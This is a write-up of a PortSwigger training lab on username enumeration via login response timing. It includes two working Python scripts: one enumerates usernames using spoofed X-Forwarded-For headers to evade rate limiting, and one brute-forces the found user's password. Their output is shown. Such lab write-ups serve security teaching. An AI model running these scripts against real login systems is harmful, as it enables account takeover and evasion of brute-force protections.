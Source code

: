 # Username enumeration via response timing

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing), you'll learn: Username enumeration via response timing! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable to username enumeration using its response times. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

- Your credentials: `wiener:peter`
- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221074715.png)

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221074727.png)

Let's try to login!

**First, what will happened if the username is incorrect?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221074959.png)

**It'll display `Invalid username or password.`, and the response time is 908.72 ms.**

**Then, what will happened if the username is correct?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221075137.png)

Hmm... Pretty much the same.

**How about correct username, but incorrect password with a big blob of strings?**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# openssl rand -hex 200
9b2907492b98ff79176efb184301e2b684fb589acff46462e834a5cf6b0a641d9936923a1fbead46cc07889f059a041ce7a2d86c5b25a3cdfda38560bf3a4bd51dac43db2f793fa2238eb29258a3b764349d2a54e1913ff0a3df981eb25b967cae8710fd6689e9d73ff0b86e784f0c81baf92d10e7dcfd6dfca4e082edf5290b04afb8217d2714c0848aedfdada5795893c60d7289bafeb7268703b164c3cb24bd053339442daed24aa4e66e735487c0834fcfd4060b8ecb3d3b8e873de1fd34b9853dff88879804
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221075427.png)

**Hmm... The response time is 2.6 s!**

**How about incorrect username, and incorrect password with a big blob of strings?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221075531.png)

652.45 ms!

**However, when I was trying to figure out the response time, there is a brute force protection:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221080323.png)

Let's try to bypass that via `X-Forwarded-For` HTTP header:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221080627.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221080653.png)

It worked!

Armed with above information, we can **enumerate username via different response time**!

For example, if **the response time is greater than 3 seconds**, then we will know that **that username is valid**!

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep, time
from string import ascii_lowercase
import random

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username, header):
    randomPassword = ''.join(random.choices(ascii_lowercase, k=699))

    loginData = {
        'username': username,
        'password': randomPassword
    }

    startTime = time()
    requests.post(url, cookies=cookie, data=loginData, headers=header)
    endTime = time()
    
    if endTime - startTime >= 3:
        print(f'[+] Found user: {username}')

def main():
    url = 'https://0aff005204396e73c1c2921c00b20071.web-security-academy.net/login'
    cookie = {'session': 'sEn3fhHi3yIfxo6GPvKhovvemLKNGYJT'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    count = 0

    for username in listUsername:
        count += 1
        header = {'X-Forwarded-For': '1.1.1.' + str(count)}

        thread = Thread(target=sendRequest, args=(url, cookie, username, header))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username_time.py
[+] Found user: affiliate
```

- Found user `affiliate`.

**Next, we need to brute force that user's password:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password, header):
    loginData = {
        'username': 'affiliate',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData, headers=header).text

    if 'Invalid username or password.' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0aff005204396e73c1c2921c00b20071.web-security-academy.net/login'
    cookie = {'session': 'sEn3fhHi3yIfxo6GPvKhovvemLKNGYJT'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    count = 0

    for password in listPassword:
        count += 1
        header = {'X-Forwarded-For': '1.1.2.' + str(count)}

        thread = Thread(target=sendRequest, args=(url, cookie, password, header))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_time.py
[+] Found password: qwertyuiop
```

- Found user `affiliate` password: `qwertyuiop`

**Let's login as user `affiliate`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221082504.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-5/images/Pasted%20image%2020221221082530.png)

We're user `affiliate`!

# What we've learned:

1. Username enumeration via response timing